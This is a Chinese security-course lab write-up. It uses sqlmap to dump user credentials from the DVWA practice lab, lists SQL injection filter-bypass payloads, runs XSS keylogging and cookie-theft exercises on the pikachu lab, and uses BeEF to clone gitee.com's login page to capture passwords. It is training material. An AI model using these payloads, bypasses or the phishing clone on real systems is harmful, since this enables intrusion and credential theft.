

# 一、使用 sqlmap 工具完成对 DVWA 数据库的注入过程，要求按照库、表、列、内容的顺序进行注入。
## 1. sqlmap
### 1.1 简介
`sqlmap` 是一个自动化的SQL注入工具，其主要功能是扫描，发现并利用给定的URL进行SQL注入。目前支持的数据库有MySql、Oracle、Access、PostageSQL、SQL Server、IBM DB2、SQLite、Firebird、Sybase和SAP MaxDB等。
### 1.2 关键参数说明
|类型|参数|说明|
|---|---|---|
|目标设置|-u <URL> 或 --url=<URL>| 目标URL|
||-r|从文件中加载请求，这样可以跳过一些参数的设置，例如cookie，POST的数据等|
||-m|多个请求保存到文本中，这个参数可以读取文本中的请求，逐个进行扫描|
||-l|可以读取 burp 或者 WebScarab proxy 中的日志文件|
|请求设置|--method|指定请求方法|
||--cookie|指定cookie|
||--header|指定header|
||--scope|可以结合 -l 做网站的过滤|
||--safe-url|提供一个安全不错误的链接，每隔一段时间都会去访问一下|
||--safe-freq|提供一个安全不错误的链接，每次测试请求之后都会再访问一遍安全链接|
|优化设置|-o|开启所有优化开关|
|注入设置|-p|指定注入参数|
||--skip|跳过不想要注入的参数|
|执行设置|--batch|执行过程中的问题 sqlmap 自动判断|
||--level|级别在3或者3以上会尝试对referer等请求头中的参数进行注入|
||--risk|风险等级：1.大部分测试语句 2.增加基于事件的测试语句 3.会增加OR语句的注入测试（如果是删除或者修改语句，那么可能会导致整表数据丢失或修改），一般使用1|
|枚举数据|--dbs|枚举数据库|
||--tables|枚举表|
||--columns|枚举列|
||--dump|储存数据库数据|
||-D|指定数据库|
||-T|指定表|
||-C|指定列|
||--sql-shell|提供交互式SQL的shell|
## 2. 使用 `sqlmap` 注入
### 2.1 打开`DVWA`靶场，访问SQL页面

### 2.2 打开 `burp` 抓取请求，保存到`Injection.txt`文件中。


### 2.3 查看`sqlmap`安装信息
```shell
  sqlmap -h
```

### 2.4 对`Injection.txt`请求文件中的请求进行扫描，判断是否存在注入漏洞
```shell
 sqlmap -r "/Users/wan/Desktop/Injection.txt"
```
   
**结果说明：** 
（1）GET请求中的id参数存在SQL注入漏洞。   
（2）扫描成功的类型有：布尔盲注，报错注入，时间盲注，联合注入
### 2.5 进一步获取数据库名
```shell
 sqlmap -r "/Users/wan/Desktop/Injection.txt" -p "id" --batch --dbs
```

### 2.6 获取表名
```shell
 sqlmap -r "/Users/wan/Desktop/Injection.txt" -p "id" --batch -D "dvwa" --tables
```

### 2.7 获取表中的列名
```shell
 sqlmap -r "/Users/wan/Desktop/Injection.txt" -p "id" --batch -D "dvwa" -T "users" --columns
```

### 2.8 获取表中用户名和密码的数据
```shell
 sqlmap -r "/Users/wan/Desktop/Injection.txt" -p "id" --batch -D "dvwa" -T "users" -C "user,password" --dump
```

### 2.9 打开dump的文件

# 二、练习课件上给出的 SQL 注入绕过方式。
## 1. 大小写绕过
用于一些基于关键字过滤的安全防护措施，但是忽略了大小写匹配，mysql 又支持大小写编写，例如：安全防护设备做了 `select` 关键字过滤的安全防护，可以尝试下面语句进行大小写绕过
```sql
SeLeCt * from users;
```

## 2. 替换关键字
用于一些关键字替换的安全防护场景，比如 `str.replace("union", "")`,就可以使用替换关键字的方式进行绕过，如下：
```sql
select 1 from users uniunionon all select 1;
```
当`uniunionon` 被安全防护设备进行关键字 `union` 替换后，只替换了中间的 `union`，替换后的字符组成了一个新的 `union`，使得语句可以正常执行。
## 3. 使用编码
### 3.1 URL编码
用于后端对传递的参数进行了解码操作的场景，例如将 `select` 关键字进行 URL 编码，来绕过安全防护设备的 `select` 关键字匹配。
```sql
 %73%65%6c%65%63%74
```

### 3.2 16进制编码
mysql本身就支持，不需要服务端进行额外的解码操作：
```sql
  SELECT first_name, last_name FROM users WHERE user_id = '1' union all select  extractvalue(1,concat(0x7e,database()));
```
上面语句中的 `0x7e` 就是16进制编码。

### 3.3 unicode编码
用于后端对传递的参数进行的对应的解码操作，我们利用编码的方式，绕过安全防护设备关键字的检测，例如：
```sql
se%u006cect
```
## 4. 使用注释
### 4.1 普通注释
#### 4.1.1 `#`

#### 4.1.2 `-- `

#### 4.1.3 `/**/`
```sql
 select/**/1;
```
   
使用注释字符来代替空格，绕过安全防护设备的关键字检索。

### 4.2 内联注释
`/*!*/`
```sql
 select 1 union /*!all*/ select 1;
```

## 5. 等价函数与命令
### 5.1 函数或变量
#### 5.1.1 `sleep()` 无法使用时，可以尝试 `benchmark(count, expr)`
```sql
 SELECT BENCHMARK(1000000,ENCODE('hello','goodbye'));
```
   
通过执行效率来达到`sleep()`同等的效果。
#### 5.1.2 `group_concat()` 无法使用时，使用 `concat_ws()` 来代替
```sql
 select concat_ws('_',1,2,3);
```

#### 5.1.3 `substring()` 无法使用时，使用 `mid()`或者`substr()`来代替
```sql
 select mid(first_name,1,1) from users;
```

```sql
 select substr(first_name,1,1) from users;
```

#### 5.1.4 `strcmp(str1, str2)` 比较两个字符串
```sql
 select strcmp('1', '2');
```

### 5.2 符号
使用 `||` 和 `&&` 分别替代 `or` 和 `and`
```sql
 select * from users where user_id = 1 && 1=2;
 select * from users where user_id = 1 || 1=2;
```


### 5.3 特殊符号
#### 5.3.1 '``' 
```sql
select * from`users`;
``` 

#### 5.3.2 '+-.'
```sql
 select+user_id-1+1.from users;
```
   
'+'用于字符串连接，'-'和'.'也用于字符串连接。
# 三、XSS
## 1. 使用 `pikachu` 平台练习 XSS 键盘记录、前台 XSS 盲打攻击获取 cookie；
### 1.1 键盘记录
#### 1.1.1 进入`pikachu`容器内部,寻找键盘记录相关文件
```shell
 docker exec -it f4dff29a6b71 /bin/bash
```
   
`pkxss_keypress_result.php` 键盘记录页面，`rk.js` 键盘记录js，`rkserver.php` 键盘记录server。
#### 1.1.2 修改`rk.js`中的ip地址，执行正确的`rkserver.php`。

#### 1.1.3 上传 `xss` 代码，传入 `rk.js`路径，提交。

#### 1.1.4 查看`pkxss_keypress_result.php`中是否有键盘记录。


### 1.2 XSS盲打
#### 1.2.1 查看容器中，cookie获取文件。
   
`cookie.php` cookie收集页面以及重定向。 `pkxss_cookie_result.php` 收集到的cookie结果展示页面。`post.html`发送请求的页面。
#### 1.2.2 copy `post.html` 页面中的发送cookie的脚本信息。

#### 1.2.3 录入XSS盲打模块中。

#### 1.2.4 登录XSS盲打后台，查看提交的信息。

#### 1.2.5 查看cookie获取记录。

## 2. 使用 beef 制作钓鱼页面，克隆任意站点的登录页面并获取用户登录的账号密码。
### 2.1 打开 `kali`

### 2.2 修改 `beef` 配置文件

### 2.3 修改密码和本机ip

### 2.4 启动 `beef`
```shell
sudo ./beef
```
   
`Hook URL` js 的地址，`UI URL`后台登录地址，`RESTful API key:` key。
### 2.5 制作钓鱼网站
```shell
curl -H "Content-Type: application/json; charset=UTF-8" -d '{"url":"https://gitee.com/login","mount":"/login"}' -X POST http://192.168.228.129:3000/api/seng/clone_page?token=78b157b75ca776cffa308758160b8a7deaaa8c09
```

### 2.6 访问钓鱼网站地址
```url
 http://192.168.228.129:3000/login
```


### 2.7 登录 `beef` 后台查看在线状态


### 2.8 输入账号密码点击登录


### 2.9 查看 `beef` 后台数据，成功获取到用户名密码数据。
